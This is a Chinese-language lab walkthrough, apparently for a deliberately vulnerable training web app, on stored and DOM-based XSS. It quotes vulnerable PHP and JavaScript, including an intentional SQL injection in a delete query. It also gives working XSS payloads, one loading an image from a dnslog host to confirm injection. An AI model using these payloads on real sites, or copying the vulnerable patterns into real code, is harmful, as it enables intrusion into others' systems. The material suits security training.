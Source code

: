 ### 存储型 XSS

#### 漏洞利用

与反射型 XSS 相同，只是被插入的恶意代码会被存储到后端数据库中，并持续性地造成攻击

#### 漏洞代码解读

```PHP
if(array_key_exists("message",$_POST) && $_POST['message']!=null){
    $message=escape($link, $_POST['message']);
    $query="insert into message(content,time) values('$message',now())";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)!=1){
        $html.="<p>数据库出现异常，提交失败！</p>";
    }
}


if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){

    //彩蛋:虽然这是个存储型xss的页面,但这里有个delete的sql注入
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        echo "<script type='text/javascript'>document.location.href='xss_stored.php'</script>";
    }else{
        $html.="<p id='op_notice'>删除失败,请重试并检查数据库是否还好!</p>";

    }

}
```

### DOM 型 XSS

#### 漏洞利用

输入 `xsstest` 进行 Fuzz 测试，通过审查元素搜索 `xsstest` 发现该 payload 被插入成了 a 标签的 href 属性值，尝试构造 payload 闭合该标签

```plaintext
'></a><img src="https://kblauh.dnslog.cn"><a href="
```

对应注入点变为

```HTML
<div id="dom"><a href=""></a><img src="https://kblauh.dnslog.cn"></div>
```

查看 DNSLOG 发现攻击成功

#### 漏洞代码解读

```HTML
<div id="xssd_main">
    <script>
        function domxss(){
            var str = document.getElementById("text").value;
            document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
        }
        //试试：'><img src="#" onmouseover="alert('xss')">
        //试试：' onclick="alert('xss')">,闭合掉就行
    </script>
    <!--<a href="" onclick=('xss')>-->
    <input id="text" name="text" type="text"  value="" />
    <input id="button" type="button" value="click me!" onclick="domxss()" />
       <div id="dom"></div>
```
